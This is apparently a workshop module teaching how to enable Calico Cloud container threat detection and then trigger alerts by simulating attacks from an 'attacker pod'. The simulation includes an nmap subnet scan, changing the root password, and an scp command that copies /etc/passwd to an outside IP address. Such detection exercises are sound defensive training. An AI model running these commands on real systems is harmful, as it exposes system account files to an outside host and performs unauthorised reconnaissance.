 # Module 4 - Zero-Day Attacks Detection with Threat Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defense evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```

   Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   Optionally, you can also try the following;

   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events` again.

   You should be able to see the following security events:

   ![security_events](https://github.com/tigera-solutions/cc-aks-implement-runtime-security/assets/104035488/612893b6-7a46-487d-bb4d-bc9876c5d302)

---

[:arrow_right: Module 5 - Quarantine Infected Workloads and Visualize KSPM](module-5-quarantine-kspm.md)  <br>

[:arrow_left: Module 3 - Configuring the Workload-Centric WAF](module-3-waf.md)  <br>

[:leftwards_arrow_with_hook: Back to Main](../README.md)  

